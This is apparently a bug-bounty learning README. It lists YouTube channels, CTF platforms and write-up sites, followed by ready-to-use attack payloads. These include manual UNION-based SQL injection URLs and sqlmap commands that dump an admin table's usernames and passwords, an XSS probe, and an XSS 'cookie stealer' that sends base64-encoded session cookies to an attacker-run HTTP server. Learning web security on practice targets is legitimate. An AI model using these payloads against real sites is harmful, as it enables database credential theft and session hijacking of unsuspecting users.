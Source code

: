 Youtube Channels 
--------

Bugcrowd : https://www.youtube.com/channel/UCo1NHk_bgbAbDBc4JinrXww
HackerOne : https://www.youtube.com/channel/UCsgzmECky2Q9lQMWzDwMhYw
Stok : https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg
Nahamsec : https://www.youtube.com/channel/UCCZDt7MuC3Hzs6IH4xODLBw
The Cyber Mentor : https://www.youtube.com/channel/UC0ArlFuFYMpEewyRBzdLHiw
Bug Bounty Reports Explained : https://www.youtube.com/c/BugBountyReportsExplained

CTF
----------

CTFTime (https://ctftime.org)
CyberTalents (https://cybertalents.com)
H1 CTF (https://ctf.hacker101.com)
Hackthebox (https://www.hackthebox.eu)
TryHackMe (https://tryhackme.com)
VulnHub (https://www.vulnhub.com)
RootMe (https://www.root-me.org)
Wizard Labs (https://labs.wizard-security.net)
PentestIt (https://lab.pentestit.ru)


Bug Bounty Articles
-----------

Pentester land - https://pentester.land/list-of-bug-bounty-writeups.html
HackerOne Reports  - https://hackerone.com/hacktivity
Medium.com - https://medium.com/bugbountywriteup/tagged/bug-bounty


SQLi
-----

```http://localhost:8000/Post.php?id=7'+order+by+8+--+-```

```http://localhost:8000/Post.php?id=7'+order+by+7+--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,table_name,4,5,6,7+from information_schema.tables where table_schema=database() limit 0,1--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(table_name),4,5,6,7+from information_schema.tables where table_schema=database()--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(column_name),4,5,6,7+from information_schema.columns where table_name='cms_admin'--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(username,password),4,5,6,7+from cms_admin--+-```


SQLMAP
-----------
```sqlmap -u http://localhost:8000/Post.php?id=7 --dbs```

```sqlmap -u http://localhost:8000/Post.php?id=7 -D cms_blog --tables```

```sqlmap -u http://localhost:8000/Post.php?id=7 -D cms_blog -T cms_admin --dump```



XSS
------------

```'><script>alert(document.domain)</script>```

XSS cookie stealer:
--------

Run python server : ```python3 -m http.server -m 80```

payload: ```<script>var i=new Image(); i.src="http://<ipaddress>/?cookie="+btoa(document.cookie);</script>```
